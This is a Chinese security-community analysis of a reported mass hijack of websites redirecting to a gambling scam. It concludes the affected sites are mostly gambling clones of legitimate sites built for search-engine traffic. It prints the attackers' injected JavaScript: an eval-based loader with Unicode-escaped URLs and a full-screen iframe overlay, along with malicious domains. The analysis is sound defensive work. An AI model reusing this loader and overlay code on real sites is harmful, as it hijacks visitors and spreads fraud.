# 揭秘35000个中文网站劫持事件背后的真相-先知社区

> **来源**: https://xz.aliyun.com/news/17156  
> **文章ID**: 17156

---

## 概述

近期，笔者在日常浏览威胁情报的时候，发现了一篇报道，报道标题是《Over 35,000 Websites Targeted in Full-Page Hijack Linking to a Chinese-Language Gambling Scam》，翻译后为《超过35,000个网站全页劫持，链接到中文赌博骗局》。

乍一看，这个标题引起了我的警觉，笔者以为此事件与前段时间QAX通报的一篇报道《bshare分享插件被黑？百万级网站被劫持事件》类似，可能又是某个大规模的网络攻击。所以，笔者就开始对其进行关注并研究。

为了弄明白其中的玄机，我从报道中的分析逻辑入手，逐步验证其中的技术手法。经过一番研究，我发现这次的攻击方式和QAX通报中的黑客手法惊人相似，似乎很有搞头啊~~~

于是，我便开始进一步跟踪报道中的技术细节，准备深入挖掘。然而，随着研究的深入，我却逐渐发现，这篇报道中似乎隐藏了一些不为人知的误导信息。因此，笔者将此次分析与研究的过程记录下来，与大家一同分享。

## bshare插件引发的网站劫持事件剖析

QAX通报的“bshare分享插件被黑？百万级网站被劫持事件”报道的大概逻辑如下：

* 大量网站引用了名为bshare的分享按钮插件，该插件对应的服务域名为static.bshare.cn；
* 网站使用bshare组件时，需要在原网页中插入bshare网站的js资源；
* QAX通过对域名static.bshare.cn的分析，确认这是一起通过抢注过期通用插件服务域名来实施大范围网页劫持的攻击事件；
* 用户访问被嵌入了恶意js资源的网站时，网页内容会被劫持至同一色情网页处；

相关报道截图如下：



为了进一步验证此事件的技术细节，笔者尝试基于网上平台进行了扩线分析，确实发现大量国内网站嵌入了bshare网站的js资源。

相关平台扩线情况如下：



笔者尝试访问了多个网站，发现此风险已被处理，相关网站的恶意js请求已无法请求成功，但网站原网页中插入bshare网站的js资源代码依然存在。

相关截图如下：





## 威胁情报通报的网站劫持事件剖析

根据威胁情报中的描述内容，我们得知：由于大量网站引用了以下网站的恶意js资源，导致其被劫持至中文博彩网站。

恶意网站列表如下：

```
mlbetjs.com
ptfafajs.com
zuizhongjs.com
jbwzzzjs.com
jpbkte.com
```

我们以`https://www.0371jxfs.com/`网站作为案例进行剖析。

**尝试访问此网站后，我们发现此网站的上半部分是博彩网站内容，下半部分是正常网页页面。**

查看正常网页内容，我们发现此网站竟然是中国人寿网站？？？

难道中国人寿网站被劫持了？？？

但是这个域名又不对啊？？？

`https://www.0371jxfs.com/`网站访问截图如下：


### 网页被嵌入第一段JS代码

为了搞清楚其劫持原理，笔者尝试从代码层面对其整个劫持原理进行了研究剖析。

通过查看其网页源代码，我们发现在源代码中确实存在嵌入第三方js资源代码的情况。

被嵌入的JavaScript代码如下：

```
<script language="javascript" src="https://www.zuizhongjs.com/js/24/12/7/ky1.js" type="text/javascript"></script>

```

相关截图如下：



相关https请求响应情况如下：



`https://www.zuizhongjs.com/js/24/12/7/ky1.js`网址的响应内容如下：

```
var l_a_n_g_age = 'javascript';
var sen_type = 'cript';
var c_d1 = "document";
var c_d2 = 'writeln("<s' + sen_type + ' language=\'' + l_a_n_g_age + '\' type=\'text/' + l_a_n_g_age + '\' src=\'\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0077\u0077\u0077\u002e\u007a\u0075\u0069\u007a\u0068\u006f\u006e\u0067\u006a\u0073\u002e\u0063\u006f\u006d\u002f\u006a\u0073\u002f\u006b\u0079\u0031\u002e\u006a\u0073\'></s' + sen_type + '>")';
eval(c_d1 + "." + c_d2);
document.write("<script>!function(p){"use strict";!function(t){var s=window,e=document,i=p,c="".concat("https:"===e.location.protocol?"https://":"http://","sdk.51.la/js-sdk-pro.min.js"),n=e.createElement("script"),r=e.getElementsByTagName("script")[0];n.type="text/javascript",n.setAttribute("charset","UTF-8"),n.async=!0,n.src=c,n.id="LA_COLLECT",i.d=n;var o=function(){s.LA.ids.push(i)};s.LA?s.LA.ids&&o():(s.LA=p,s.LA.ids=[],o()),r.parentNode.insertBefore(n,r)}()}({id:"3He6gkvYRqxh6SLX",ck:"3He6gkvYRqxh6SLX"});</script>")
document.write("<script>!function(p){"use strict";!function(t){var s=window,e=document,i=p,c="".concat("https:"===e.location.protocol?"https://":"http://","sdk.51.la/js-sdk-pro.min.js"),n=e.createElement("script"),r=e.getElementsByTagName("script")[0];n.type="text/javascript",n.setAttribute("charset","UTF-8"),n.async=!0,n.src=c,n.id="LA_COLLECT",i.d=n;var o=function(){s.LA.ids.push(i)};s.LA?s.LA.ids&&o():(s.LA=p,s.LA.ids=[],o()),r.parentNode.insertBefore(n,r)}()}({id:"3HCbdgcdQO6xCcx6",ck:"3HCbdgcdQO6xCcx6"});</script>");
document.write("<script>!function(p){"use strict";!function(t){var s=window,e=document,i=p,c="".concat("https:"===e.location.protocol?"https://":"http://","sdk.51.la/js-sdk-pro.min.js"),n=e.createElement("script"),r=e.getElementsByTagName("script")[0];n.type="text/javascript",n.setAttribute("charset","UTF-8"),n.async=!0,n.src=c,n.id="LA_COLLECT",i.d=n;var o=function(){s.LA.ids.push(i)};s.LA?s.LA.ids&&o():(s.LA=p,s.LA.ids=[],o()),r.parentNode.insertBefore(n,r)}()}({id:"3KTVqFaBjEXnBZT2",ck:"3KTVqFaBjEXnBZT2"});</script>")
```

进一步分析，发现代码中的`“https://www.zuizhongjs.com/js/ky1.js”`字符串其实是Unicode编码数据。

尝试对其进行Unicode转义，发现其实际为下一段js资源地址：`https://www.zuizhongjs.com/js/ky1.js`

相关Unicode转义截图如下：



### 第二段JS代码

通过分析，网页在成功加载`https://www.zuizhongjs.com/js/24/12/7/ky1.js`资源后，即会从此响应数据中提取第二段js资源的地址，随后对其进行加载。

相关https请求响应情况如下：



`https://www.zuizhongjs.com/js/ky1.js`网址的响应内容如下：（会判断是否使用手机端访问？但是却没看到调用isMobile函数。。。）

```
function isMobile() {
    if ((navigator.userAgent.match(/(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i)))
        return true;
    else
        return false;
}

var url="\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0077\u0077\u0077\u002e\u007a\u0075\u0069\u007a\u0068\u006f\u006e\u0067\u006a\u0073\u002e\u0063\u006f\u006d\u002f\u0067\u006f\u002f\u006b\u0061\u0069\u0079\u0075\u006e\u0031\u002f\u006b\u0079\u002e\u0068\u0074\u006d\u006c";
function getIosVersion() {
  var str = navigator.userAgent.toLowerCase(); 
  var ver = str.match(/cpu iphone os (.*?) like mac os/);
  return ver ? parseInt(ver[1].slice(0,2)) :false
}
var u = navigator.userAgent;
var isIOS = !!u.match(/\(i[^;]+;( U;)? CPU.+Mac OS X/);

function randomNum(minNum,maxNum){ 
    switch(arguments.length){ 
        case 1: 
            return parseInt(Math.random()*minNum+1,10); 
        break; 
        case 2: 
            return parseInt(Math.random()*(maxNum-minNum+1)+minNum,10); 
        break; 
            default: 
                return 0; 
            break; 
    } 
} 

const time = randomNum(500, 1000)
console.log(time)

document.write('<meta id="viewport" name="viewport" content="user-scalable=no,width=device-width, initial-scale=1.0" />'); 
document.write('<style>html,body{widht:100%;height:100%;overflow:hidden; clear:both;}</style>'); 
document.write('<div style="width:100%;height:100%;position:absolute;top:0;left:0;z-index:2147483647;background:#fff">'); 
document.write('<iframe src=" '+url+'" frameborder="0" style="border:0;width: 100%; text-align: center; border: medium none; height:100%;max-height: 4000px;"></iframe>'); 
document.write('</div>');
```

进一步分析，发现代码中`“https://www.zuizhongjs.com/go/kaiyun1/ky.html”`字符串也是Unicode编码数据。

Unicode转义后为`https://www.zuizhongjs.com/go/kaiyun1/ky.html`

相关Unicode转义截图如下：



### 劫持至博彩网站

通过分析，网页在成功加载`https://www.zuizhongjs.com/js/ky1.js`资源后，即会从此响应数据中提取最终的博彩网站的资源地址，随后对其进行加载。

相关https请求响应情况如下：



直接访问`https://www.zuizhongjs.com/go/kaiyun1/ky.html`网址的内容截图如下：


## 被劫持的网站量有多大？

为了探究此次网页劫持的影响范围，笔者尝试基于网上平台进行了扩线分析，发现存在加载恶意js资源的网站确实还不少。

相关截图如下：







## 国内中文网站被劫持？

基于此，我们感觉一切都还挺顺利，直接基于网上平台的扩线情况，盘点一下国内站点，就能确定受控范围。

所以，笔者尝试基于上述扩线情况下的被劫持网站地址，结合域名反查IP等技术手段进行了梳理。

由于笔者使用的网上平台未充值会员，因此，笔者只提取了600余个携带恶意js资源的网站地址。结合技术手段，笔者将网站标题和网站域名解析IP进行了对应的提取。

但是！！！在对梳理后的数据进行分析的过程中，笔者发现上述携带恶意js资源的网站标题怎么都不是正常网站的标题啊。。。网站域名解析IP也没有国内网站。。。。。。

这让笔者对原始威胁情报报道的内容产生了无尽的怀疑。。。。。。

相关截图如下：



## 博彩网站克隆正常网站内容？

为了进一步确定此事件的技术原理，笔者开始对各个环节进行了探究，最终在网页源代码中发现了端倪：笔者发现被嵌入恶意js资源的网站，其实都是被博彩网站克隆正常网站的产物。

在`https://www.0371jxfs.com/`网站的网页源代码的url跳转链接中，均存在**wanboguanwangmanbetx**字符串。

相关截图如下：



尝试谷歌搜索**wanboguanwangmanbetx**字符串，不言而喻。。。


### 正常网站内容

尝试查找真正的中国人寿官网：`https://www.e-chinalife.com/`，发现网站内容确实一样。

相关截图如下：



尝试对比网站源代码，发现克隆网站对正常网站内容的URL进行了修改。

相关对比截图如下：



### 其他克隆网站

* 正常网站：`https://www.meichenindustry.com/`
* 克隆网站：`http://www.mp3mpire.com/`

相关截图如下：





## 博彩网站推广--基于搜索引擎引流

基于此，我们基本确定携带恶意js资源的网站，其实都是被博彩网站克隆正常网站的复制网站。

但是，这样做的目的是什么呢？

经过多轮测试，笔者发现：当我们使用搜索引擎搜索某些关键字时，由于博彩克隆网站中存在与正常网站一样的内容，因此，搜索引擎会将正常网站和博彩克隆网站一起展示出来，以此实现博彩网站基于搜索引擎引流推广的效果。

而博彩克隆网站均被嵌入了恶意js资源，目的就是为了能够实现快速克隆，在不影响克隆网站网页代码的情况下，展示博彩网页内容。

例如，我们搜索如下关键词：

```
洞察未来，呵护健康——首届中国医疗电子制造技术峰会成功举办！
```

* 搜索引擎结果如下：



* 正常网站：`http://www.simand.com.cn/`



* 博彩克隆网站：`https://www.hicks4x4.com/`


